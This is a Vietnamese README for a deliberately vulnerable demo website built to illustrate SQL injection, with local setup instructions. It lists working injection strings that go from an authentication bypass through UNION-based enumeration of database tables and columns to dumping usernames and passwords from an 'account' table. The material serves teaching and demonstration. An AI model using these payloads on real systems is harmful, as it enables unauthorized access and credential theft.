 ## Website demo tấn công SQL Injection

### Công nghệ sử dụng
- NodeJS
- MYSQL
- Heroku
- HTML
- CSS
- JS
- Bootstrap
- ExpressJS 

9. Các câu lệnh tấn công thử trên web:
    - [' OR 1 = 1 -- ]
    - [' ORDER BY 4 -- ]
    - [' ORDER BY 5 -- ]
    - [' UNION SELECT 1, 2, 3, 4 -- ]
    - [' UNION SELECT 1, GROUP_CONCAT(TABLE_NAME), 3, 4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA= DATABASE() -- ]
    - [' UNION SELECT 1, GROUP_CONCAT(COLUMN_NAME), 3, 4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME= 'account' -- ]
    - [' UNION SELECT id, password, username, 4 FROM account -- ]

### Hướng dẫn run code
#### 1. Cài ứng dụng
- Nodejs
- MySql
- Vscode

#### 2. Import database trong thư mục database vào mysql

#### 3. Mở project bằng Vscode

#### 4. Vào file database.js (src/model/database.js) chỉnh sửa value của các dòng 4, 5, 6, 7 sao cho đúng với database.

#### 6. Mở terminal (cmd)

#### 7. Gõ lệnh: 
    - npm install --global yarn (Nếu đã cài yarn thì không cần thực hiện câu lệnh này)
    - yarn
    - yarn start

#### 8. Mở trình duyệt với url: "http://localhost:5000"

